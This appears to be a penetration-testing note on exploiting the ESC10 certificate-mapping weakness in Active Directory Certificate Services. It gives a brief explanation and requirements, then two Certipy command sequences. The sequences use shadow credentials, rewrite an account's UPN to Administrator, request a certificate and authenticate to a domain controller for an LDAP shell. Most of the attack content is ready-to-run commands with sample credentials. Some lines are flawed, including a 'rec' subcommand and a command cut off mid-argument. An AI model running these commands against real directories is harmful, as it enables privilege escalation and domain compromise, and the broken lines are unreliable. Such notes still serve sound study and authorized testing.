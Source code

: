 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview: 

Exploiting ESC10 in AD CS involves taking advantage of weak certificate mapping configurations that allow low-privileged users to obtain certificates capable of high-privilege impersonation. In environments where ESC10 is present, attackers can request certificates that lack proper security extensions, such as the `szOID_NTDS_CA_SECURITY_EXT`. 

These certificates can then be used to authenticate as privileged accounts, like domain controllers, enabling the attacker to escalate privileges and potentially compromise the entire domain. 

This attack is particularly effective when the `StrongCertificateBindingEnforcement` setting is not strictly enforced, allowing certificates with weak or absent security extensions to be accepted by Kerberos or Schannel.

## Requirements: 

- StrongCertificateBindingEnforcement set to 0
- GenericWrite over any account A to compromise any account B
 

# Abusing ESC10  Certificate Templates

## Scenario 1: 

## Certipy

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad rec -CA 'corp-DC-CA' -username xadmin@megacorpone.com -hashes "NT HASH"
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user 

## Scenario 2:

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad req -username xadmin@megacorpone.com -hash "NT-HASH" -CA 'corp-DC-CA' -template 'Vuln Template'
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn xadmin@megacorpone.com
- certipy-ad auth -pfx dc.pfx -dc-ip 172.21.1.5 -ldap-shell